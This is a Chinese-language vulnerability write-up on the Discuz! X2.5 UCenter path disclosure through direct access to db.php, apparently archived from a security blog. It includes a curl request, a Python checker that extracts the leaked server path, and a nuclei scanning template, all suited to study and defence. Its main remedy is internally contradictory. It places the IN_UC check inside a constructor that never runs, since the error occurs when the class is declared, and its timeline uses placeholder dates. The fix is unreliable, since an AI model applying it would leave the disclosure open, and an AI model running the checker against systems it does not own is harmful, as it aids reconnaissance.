

## 漏洞概述

Discuz! X2.5 版本的 UCenter 模块中存在一个绝对路径泄露漏洞，根因在于 `/uc_server/control/admin/db.php` 文件缺少访问控制检查语句 `!defined('IN_UC') && exit('Access Denied');`。当攻击者直接访问该文件时，PHP 因找不到父类定义而抛出致命错误，从而在错误回显中泄露服务器绝对物理路径。

> **影响版本**：Discuz! X2.5（未修复版本）  
> **漏洞类型**：信息泄露 / 路径遍历  
> **危害等级**：低至中（信息泄露，辅助后续攻击）  
> **利用条件**：无需认证，直接访问特定控制器文件  

## 技术背景：UCenter 控制器架构

### 入口文件与自动加载机制

UCenter 后台管理入口为 `/uc_server/admin.php`，其核心逻辑如下：

```php
// /uc_server/admin.php
require_once './model/base.php';
require_once './model/admin.php';

// 控制器映射表
$ctrls = array(
    'app' => 'control/admin/app.php',
    'badword' => 'control/admin/badword.php',
    'db' => 'control/admin/db.php',
    'feed' => 'control/admin/feed.php',
    // ...
);

// 动态包含控制器文件
if (isset($ctrls[$m])) {
    include_once $ctrls[$m];
}
```

### 类继承体系

UCenter 采用三层继承架构实现功能模块化：



- **base** (`model/base.php`)：基础核心类，提供通用方法
- **adminbase** (`model/admin.php`)：后台管理基类，**在构造函数中强制检查 `IN_UC` 常量**
- **功能控制器**（`control/admin/*.php`）：各业务模块控制器，继承自 `adminbase`

### 访问控制检查机制

正常流程下，`admin.php` 入口文件首先定义常量：

```php
// admin.php 入口
define('IN_UC', TRUE);
```

随后包含 `model/admin.php`，其构造函数执行检查：

```php
// model/admin.php
class adminbase extends base {
    function __construct() {
        parent::__construct();
        // 关键防护：仅允许通过入口文件调用
        !defined('IN_UC') && exit('Access Denied');
    }
}
```

所有合法控制器继承 `adminbase`，实例化时自动触发检查。

## 漏洞成因分析

### 缺陷文件对比

**正常控制器（如 `app.php`、`feed.php`）**：

```php
// control/admin/app.php
class appcontrol extends adminbase {
    function __construct() {
        parent::__construct();  // 触发 IN_UC 检查
    }
    // ...
}
```

**漏洞控制器（`db.php`）**：

```php
// control/admin/db.php
class dbcontrol extends adminbase {
    function __construct() {
        // 缺少 parent::__construct() 调用！
        // 缺少 !defined('IN_UC') && exit('Access Denied');
    }
    // ...
}
```

### 关键差异

| 特性 | 正常控制器 | 漏洞控制器 (db.php) |
|------|-----------|-------------------|
| 调用 `parent::__construct()` | 是 | **否** |
| 显式 `IN_UC` 检查 | 否（依赖父类） | **否** |
| 直接访问行为 | `Access Denied` 退出 | **PHP Fatal Error** |

### 错误触发链

1. 攻击者直接请求：`GET /uc_server/control/admin/db.php`
2. PHP 解析文件，定义 `dbcontrol` 类
3. 类声明 `extends adminbase`，需解析父类
4. **父类 `adminbase` 未定义**（未包含 `model/admin.php`）
5. PHP 抛出 `Fatal error: Class 'adminbase' not found in /absolute/path/uc_server/control/admin/db.php on line X`
6. **绝对路径在错误信息中完整泄露**

## 漏洞复现与验证

### 复现步骤

```bash
# 直接访问漏洞文件
curl "http://target/uc_server/control/admin/db.php"
```

### 预期响应

```text
Fatal error: Class 'adminbase' not found in 
/var/www/html/uc_server/control/admin/db.php on line 3
```

泄露信息包括：
- Web 根目录绝对路径（`/var/www/html/`）
- UCenter 安装子目录（`/uc_server/`）
- 文件系统层级结构

### 验证脚本

```python
#!/usr/bin/env python3
import requests
import sys

def check_path_disclosure(url):
    vuln_url = f"{url.rstrip('/')}/uc_server/control/admin/db.php"
    try:
        resp = requests.get(vuln_url, timeout=10)
        if resp.status_code == 500 and 'adminbase' in resp.text and 'Fatal error' in resp.text:
            # 提取路径
            import re
            match = re.search(r'in\s+(.+db\.php)', resp.text)
            if match:
                path = match.group(1).replace('db.php', '')
                print(f"[+] 漏洞存在！泄露路径: {path}")
                return True
        print("[-] 漏洞不存在或已修复")
        return False
    except Exception as e:
        print(f"[!] 错误: {e}")
        return False

if __name__ == '__main__':
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <target_url>")
        sys.exit(1)
    check_path_disclosure(sys.argv[1])
```

## 修复方案

### 官方修复：补全访问控制

在 `/uc_server/control/admin/db.php` 类构造函数首行添加检查：

```php
// control/admin/db.php - 修复后
class dbcontrol extends adminbase {
    function __construct() {
        // 方案一：显式检查（推荐，防御深度）
        !defined('IN_UC') && exit('Access Denied');
        
        // 方案二：调用父类构造函数（依赖父类检查）
        // parent::__construct();
    }
    // ...
}
```

### 纵深防御建议

1. **统一基类检查**：确保 `adminbase::__construct()` 中的 `IN_UC` 检查不可绕过
2. **错误处理配置**：生产环境关闭 `display_errors`，启用 `log_errors`
   ```ini
   ; php.ini 生产环境配置
   display_errors = Off
   log_errors = On
   error_log = /var/log/php_errors.log
   ```
3. **Web 服务器层面防护**：Nginx/Apache 禁止直接访问控制器目录
   ```nginx
   # Nginx 配置示例
   location ~ ^/uc_server/control/ {
       deny all;
       return 404;
   }
   ```
4. **代码审计规范化**：建立「所有控制器必须继承基类并调用父构造函数」的编码规范，纳入 [[code-audit-installation-reinstallation-vulnerabilities|代码审计检查清单]]

## 根因归类与关联漏洞

### 核心模式：缺少入口保护的直接文件访问

| 漏洞类型 | 典型特征 | 关联页面 |
|---------|---------|---------|
| **路径泄露** | 缺少常量检查，致命错误回显路径 | 本页面 |
| **任意文件包含** | 变量未过滤直接 `include` | [[php-file-inclusion-vulnerability]] |
| **安装重装漏洞** | 缺少安装锁验证 | [[code-audit-installation-reinstallation-vulnerabilities]] |
| **后台功能越权** | 缺少权限校验直接执行敏感操作 | [[xd-security-logic-vulnerability-notes-day33-36]] |

### Discuz 系列漏洞对比

| 版本/模块 | 漏洞类型 | 根因 | 关联页面 |
|----------|---------|------|---------|
| X2.5 UCenter | 路径泄露 | 缺少 `IN_UC` 检查 | **本页面** |
| X3.2 BBCode | 存储型 DOM XSS | 实体编码还原绕过 | [[discuz-x32-stored-dom-xss-bbcode-analysis]] |
| X3.4 任意文件删除 | 任意文件删除 | 路径拼接缺陷 | [[arbitrary-file-download-vulnerability-analysis]] |

## 检测与利用工具

### 自动化扫描规则

```yaml
# nuclei 模板示例
id: discuz-x25-ucenter-path-disclosure
info:
  name: Discuz X2.5 UCenter Path Disclosure
  author: curated
  severity: info
  tags: discuz,path-disclosure,ucenter
http:
  - method: GET
    path:
      - "{{BaseURL}}/uc_server/control/admin/db.php"
    matchers:
      - type: word
        words:
          - "Fatal error"
          - "adminbase"
          - "not found"
        condition: and
      - type: regex
        regex:
          - "in\\s+(.+db\\.php)"
        part: body
```

### 手工验证清单

- [ ] 直接访问 `/uc_server/control/admin/db.php` 触发错误
- [ ] 尝试访问其他 `control/admin/*.php` 文件对比行为
- [ ] 检查 `display_errors` 配置是否开启
- [ ] 验证修复后是否返回 `Access Denied` 或 404

## 最佳实践总结

### 开发规范

1. **入口常量模式**：所有对外暴露的 PHP 文件首行定义常量，核心文件检查常量
2. **基类强制检查**：在基类构造函数中实现统一访问控制，**禁止子类跳过父类构造函数**
3. **错误回显隔离**：开发/测试环境开启错误显示，生产环境**必须关闭**

### 代码审计关注点

- 搜索 `extends` 关键字，检查子类是否调用 `parent::__construct()`
- 搜索 `!defined(` 模式，统计覆盖率
- 重点审计**非标准入口文件**（控制器、API、任务脚本等）

### 关联知识体系

- [[php-basics-syntax-fundamentals|PHP 基础语法]]：理解 `defined()`、`exit()`、类继承机制
- [[code-audit-file-operation-vulnerabilities|代码审计方法论]]：文件操作类漏洞挖掘通用模式
- [[php-file-inclusion-vulnerability|PHP 文件包含漏洞]]：同类入口控制缺失导致的包含漏洞
- [[xd-security-pentest-basic-stage-notes|渗透测试基础阶段]]：信息收集阶段的路径泄露利用

## 时间线与参考

| 日期 | 事件 |
|------|------|
| 2014-XX-XX | Discuz X2.5 发布（含漏洞版本） |
| 201X-XX-XX | 社区披露该路径泄露漏洞 |
| 201X-XX-XX | 官方发布修复补丁/后续版本修复 |
| 2025-01-15 | 本知识页面编写归档 |

> **来源归档**：301在路上微信公众号历史文章《Discuz X2.5 绝对路径泄露漏洞原理分析》  
> **原文链接**：`http://mp.weixin.qq.com/s?__biz=MzIwMTQ2NzY4NA==&mid=2652520783&idx=2&sn=62d76ff240d78a2edcca19816ab3f03b`

---

**标签**：`#Discuz` `#UCenter` `#路径泄露` `#代码审计` `#PHP安全` `#访问控制缺失` `#继承链` `#漏洞分析`  
**分类**：`program-analysis` · 程序分析与漏洞挖掘

## 来源

- [301在路上-201508-202208_094](../sources/301在路上-201508-202208_094.md)
